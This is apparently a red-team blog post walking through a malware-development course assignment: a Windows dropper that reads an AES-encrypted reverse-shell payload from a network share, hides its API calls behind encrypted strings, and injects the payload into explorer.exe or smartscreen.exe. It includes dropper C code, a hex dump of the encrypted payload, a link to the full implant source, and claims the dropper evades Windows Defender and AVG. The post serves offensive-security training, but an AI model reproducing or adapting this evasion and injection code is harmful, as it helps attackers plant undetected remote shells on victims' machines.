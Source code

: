 ```yaml
---
layout: single
title: AV Evasion - Sharing is (s)caring
date: 2020-10-02
classes: wide
header:
  teaser: /assets/images/AV_evasion/sharing_is_caring.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/sharing_is_caring.jpg)<br>

## Introduction
Hello hackers and welcome back to the 3rd and last assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/the-payload-is-behind-kitties/) we saw PE injection using a payload hidden inside an image, implemented the dropper with the capacity of extraction of the payload and injecting it in the PE process target. The last assignmet ask us to encrypt a payload, load it on the file system or in our case in shared folder on the target OS, and write a dropper that open the payload and trigger the injection. The suggestions from reenz0h here are to use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) WinAPI functions.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to open the payload from a directory on the fiule system, we choosed a network sherd folder, so take a look closer to the payload memory loading and analyze what we have to change.

## The Payload
In the previous posts we already prepared and encrypted the payload that was implemented as a resource or hidden behind an image, so there isn't much work here. The AES256 encrypted payload is the same used in the last post so a simple Win64 reverse shell

Let's check the payload with ```xxd```
```bash
xxd -g1 payload_enc
00000000: 4d 37 18 fc 9d 9a ac 18 47 a6 fc 63 96 fc df 01  M7......G..c....
00000010: 1b 24 25 c0 7f 11 c6 5b 9a 8f b6 c3 1b e3 de 01  .$%....[........
00000020: 9a e3 de 83 1b e0 82 dc 60 9d 90 f8 b9 53 c9 78  ........`....S.x
00000030: 35 a3 92 1e 74 65 04 71 2f 9f e3 37 47 1a b9 3a  5...te.q/..7G..:
00000040: 55 60 f3 78 c0 64 1d ef 60 81 79 19 8e e2 44 3e  U`.x.d..`.y...D>
00000050: 06 1c 01 0c 35 8a 28 f3 38 cf 13 0e 07 05 ff 37  ....5.(.8......7
00000060: 39 98 52 b4 45 65 46 27 47 4d 1a 5d 7a 1e e3 4e  9.R.EeF'GM.]z..N
00000070: 2c 0b be e1 01 78 99 48 30 c3 01 cc e4 12 49 96  ,....x.H0.....I.
00000080: c0 d8 0d 1d 5d 0b 14 6a 64 b7 04 ae 34 6c 27 4f  ....]..jd...4l'O
00000090: 9e ef c9 58 15 86 31 57 a9 1b 8f 7c 9b 69 73 7d  ...X..1W...|.is}
000000a0: ba 53 93 34 1d db c0 c4 d9 be 2a 47 0c 63 56 0d  .S.4......*G.cV.
000000b0: 43 9d 27 fd 12 1c 11 61 ae f5 b8 d7 eb f2 ad 67  C.'....a.......g
000000c0: 25 1b f9 ef 24 4b 6c ed 04 63 ea 68 92 63 ee 75  %...$Kl..c.h.c.u
000000d0: 48 65 40 c3 50 f2 d2 88 8c 43 51 1c ea 82 67 9d  He@.P....CQ...g.
000000e0: 32 4f 13 f9 ba df da 0e dc e6 0a 69 8d 87 98 9a  2O.........i....
000000f0: df a4 41 60 a0 1b f6 85 e2 57 3c 57 d2 b6 06 b5  ..A`.....W<W....
00000100: 41 40 24 c9 2d f1 68 c4 57 6e c4 4d 43 18 e5 4f  A@$.-.h.Wn.MC..O
00000110: 09 0c 89 ff c2 d0 4a bc 55 b6 50 3a b4 53 dd 69  ......J.U.P:.S.i
00000120: 62 2d c2 89 d1 a9 11 c3 d2 57 63 ed 7f 31 e3 41  b-.......Wc..1.A
00000130: fb 91 08 1e 9e d7 94 17 58 4c 7b 0d 79 ee 9b fe  ........XL{.y...
00000140: 5f 59 b7 f3 bb 61 fb 0e eb 45 da 6c b5 9e e5 f9  _Y...a...E.l....
00000150: 65 fb 18 7f a0 9a d3 7d 63 76 79 a2 01 ea 1a f8  e......}cvy.....
00000160: dd 54 cf 64 bc 8c b2 d2 26 04 b9 d4 6d 97 78 88  .T.d....&...m.x.
00000170: 79 d8 e7 50 2a 21 18 4f 1a e3 b4 9d ec c4 de 11  y..P*!.O........
00000180: 6d 8d fc 05 d2 a1 42 ff 6b ad 75 67 16 26 93 66  m.....B.k.ug.&.f
00000190: 55 76 86 eb 4c c7 45 c1 a1 3b f5 12 a6 5a 6a 01  Uv..L.E..;...Zj.
000001a0: fe 31 13 10 77 1b cd 47 dd d8 c2 8a cc 90 ca b5  .1..w..G........
000001b0: b2 64 40 d6 0a 73 66 76 95 08 1c cc b6 f7 6f 9c  .d@..sfv......o.
000001c0: 04 46 10 53 9e 1f 09 bc 95 cf 25 70 e1 38 0b 9c  .F.S......%p.8..
```
Now we must mount the folder where the payload is, in the target OS as a shared folder. 

## The Dropper
First thing first we define the size of our buffer
```c
  #define BUFFSIZE 512
```
Next we have to define the elements needed to call the ```CreateFileA``` and ```ReadFile``` functions in the encryted way.<br>
the first elements are the pointers.
```c
  HANDLE (WINAPI * pCreateFileA)(
    LPCSTR                lpFileName,
    DWORD                 dwDesiredAccess,
    DWORD                 dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD                 dwCreationDisposition,
    DWORD                 dwFlagsAndAttributes,
    HANDLE                hTemplateFile
  );

  BOOL (WINAPI * pReadFile)(
    HANDLE       hFile,
    LPVOID       lpBuffer,
    DWORD        nNumberOfBytesToRead,
    LPDWORD      lpNumberOfBytesRead,
    LPOVERLAPPED lpOverlapped
  );

```
The encrypted strings,
```c
  unsigned char sCreateFileA[] = { ... };
  unsigned char sReadFile[] = { ... };
```
the strings decryption and the address assignment to the function pointers 
```c
  AESDecrypt((char *) sCreateFileA, sizeof(sCreateFileA), key, sizeof(key));
  AESDecrypt((char *) sReadFile, sizeof(sReadFile), key, sizeof(key));
  ...
  pCreateFileA = GetProcAddress(GetModuleHandle(sKernel), sCreateFileA);
  pReadFile = GetProcAddress(GetModuleHandle(sKernel), sReadFile);
```
Next we have to define the file ```HANDLE```, the shared path of the payload (we have to use the double backslash to avoid the escaping chars) and the payload pointer.

```c
  HANDLE hFile;
  char path[] = "\\\\tsclient\\share\\payload_enc";
  char* payload[BUFFSIZE] = {0};
```
Last but not least, as for the previous post, we must change the way the payload is loaded in memory.

```c
  // Load resources section
  res = pFindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
  resHandle = pLoadResource(NULL, res);
      
  // Extract payload from the image
  image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
  image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
  
  end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
  size = atoi(end); // cast from char to int, now size is the original size of the jpg
  offset = image + size; // offset points to the first char of the p0
  p0_len = image_len - size - 7; // calculate the payload size
  memcpy(p0, offset, p0_len); // copy in another memory area the effective p0

  // Allocate some memory buffer for p0
  exec_mem = pVirtualAlloc(0, p0_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy p0 to new memory buffer
  pRtlMoveMemory(exec_mem, p0, p0_len);
```
In the code trunk below, referred to the dropper of the previous post, the payload is loaded from the resources and extracted from the image but now we have an encrypted file on shared folder so we have to change the dropper like this

```c
  // Load the payload from FS to memory
  hFile = pCreateFileA(path, 
                      GENERIC_READ,
                      FILE_SHARE_READ, 
                      NULL, 
                      OPEN_EXISTING, 
                      FILE_ATTRIBUTE_NORMAL, 
                      NULL);
  
  if (hFile == INVALID_HANDLE_VALUE) {
    return 0;
  }

  if (FALSE == pReadFile(hFile, payload, (BUFFSIZE-1), NULL, NULL)) {
    return 0;
  }
  
  // Close the HANDLE
  pCloseHandle(hFile);
  
  payload_len = strlen(payload);
  
  // Allocate some memory buffer for payload
  exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy payload to new memory buffer
  pRtlMoveMemory(exec_mem, payload, payload_len);
```
After opening the file with ```CreateFileA``` function we need to read it with ```ReadFile```, this function load the payload as binary stream in the ```payload``` pointer in memory. What we must do now is to calculate the payload lenght and move the payload to another RW memory buffer. After that we are ready to decrypt our payload and inject it in our PE target process.

## Tests
As in the previous post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but in this case  the injection doesn't trigger Windows Defender nor AVG Free "only" on ```explorer.exe``` and ```smartscreen.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active. So, also in this case, we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_fs_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Sharing%20is%20scaring/implant.cpp) you can find the dropper code. <br>
We hope you enjoied the ride on ```RedTeam Operator Malware Development Essentials``` walkthrough assignments and stay tuned for the ```Intermediate``` level posts :)

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https
://twitter.com/Sektor7Net) <br>
